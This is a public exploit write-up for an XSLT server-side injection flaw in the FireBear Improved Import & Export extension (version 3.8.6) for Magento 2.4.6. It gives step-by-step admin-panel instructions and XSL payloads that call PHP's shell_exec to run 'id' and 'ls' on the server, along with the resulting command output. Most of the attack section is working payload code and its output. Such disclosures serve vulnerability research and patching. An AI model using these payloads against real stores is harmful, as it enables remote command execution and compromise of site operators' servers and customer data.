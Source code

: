 # Exploit Title: Adobe Improved Import & Export ver. 3.8.6 for Magento 2.4.6  - XSLT Server Side Injection

- **Date:** 2023-11-17
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [FireBear Studio](https://commercemarketplace.adobe.com/)
- **Software Link:** [Adobe Improved Import & Export ](https://commercemarketplace.adobe.com/firebear-importexport.html)
- **Version:**  FireBear Improved Import & Export ver. 3.8.6

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/magento.png" alt="Magento Image" width="1000">

<img src="https://raw.githubusercontent.com/capture0x/Magento-ver.-2.4.6/main/3.png" alt="Magento Image" width="1000">
## POC

1. Enter with admin credentials to this URL: [https://magento2demo.firebearstudio.com/](https://magento2demo.firebearstudio.com/)
2. Click `SYSTEM > Import Jobs > Entity Type Widget > click edit`
3. Choose  Import File Type > XML > Import Source is File
4. Upload any xml file
5. Click `XSLT Configuration` and write this payload:

   ```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','id')" />
     </xsl:template>
   </xsl:stylesheet>```
   
**<?xml version="1.0"?>
**uid=10095(a0563af8) gid=1050(a0563af8) groups=1050(a0563af8)

```xml
   <?xml version="1.0" encoding="utf-8"?>
   <xsl:stylesheet version="1.0"
   xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
   xmlns:php="http://php.net/xsl">
     <xsl:template match="/">
       <xsl:value-of select="php:function('shell_exec','ls')" />
     </xsl:template>
   </xsl:stylesheet>```

**<?xml version="1.0"?>
cron.php
errors
get.php
health_check.php
index.php
media
opt
robots.txt
static
static.php

